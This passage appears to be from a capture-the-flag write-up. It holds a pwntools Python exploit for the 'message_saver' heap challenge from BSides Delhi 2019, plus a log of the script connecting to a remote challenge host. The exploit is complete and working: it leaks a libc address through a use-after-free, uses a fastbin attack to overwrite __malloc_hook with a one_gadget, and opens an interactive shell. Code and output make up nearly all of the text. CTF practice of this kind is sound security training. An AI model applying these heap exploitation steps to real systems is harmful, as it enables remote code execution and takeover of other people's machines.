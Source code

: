 ```python
    debug([])

# Exploit goes here

# Set up initial chunks
add(0, 'A'*0x8, 'A'*0x80) # Small sized chunk, goes into unsorted bin for libc leak
add(1, 'B'*0x8, 'B'*0x66) # Used for fastbin attack
add(2, 'C'*0x8, 'C'*0x66) # Used for fastbin attack
add(3, 'D'*0x8, 'D'*0x50) # Prevents coalesce with the top chunk

# Free the small sized chunk and use the UAF to read the libc address from it
free(0)
leak = u64(show(0).split('\n')[1].split(' : ')[1].ljust(8, '\x00'))

# Calculate offsets
libc.address = leak - 0x3c4b78
malloc_hook = libc.symbols['__malloc_hook'] - 0x30 + 0xd
one_gadget = libc.address + 0xf02a4

log.info('Libc leak: ' + hex(leak))
log.info('Libc base: ' + hex(libc.address))
log.info('__malloc_hook: ' + hex(malloc_hook))
log.info('one_gadget: ' + hex(one_gadget))

# Fastbin attack time. Free chunks B and C
free(1)
free(2)

# We must have a valid pointer at the fd of the topic chunk, otherwise the program will crash
# So we initially read the fd pointer of chunk C's topic and store it
topic_fd = u64(show(2).split('\n')[0].split(' : ')[1].ljust(8, '\x00'))

# Now overwrite the fd pointer of chunk C's body to __malloc_hook-0x30+0xd
# Ensure not to change chunk C's topic's fd pointer
edit(2, p64(topic_fd), p64(malloc_hook))

# Second allocation will be at __malloc_hook-0x30+0xd
# Overwrite __malloc_hook with one_gadget
add(4, 'E'*0x8, 'E'*0x66) # Chunk C given back to us
add(5, 'F'*0x8, 'F'*0x13 + p64(one_gadget) + 'F'*0x4b) # Chunk on __malloc_hook - 0x30 + 0xd

# Get shell
p.sendlineafter('>>', '1')
p.sendlineafter('index\n', '0')

p.interactive()

```
```sh
vagrant@ubuntu-xenial:/ctf/pwn-and-rev/bsides_delhi2019/message_saver$ ./exploit.py REMOTE
[*] '/ctf/pwn-and-rev/bsides_delhi2019/message_saver/message_saver'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/ctf/pwn-and-rev/bsides_delhi2019/message_saver/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 35.226.111.216 on port 4444: Done
```
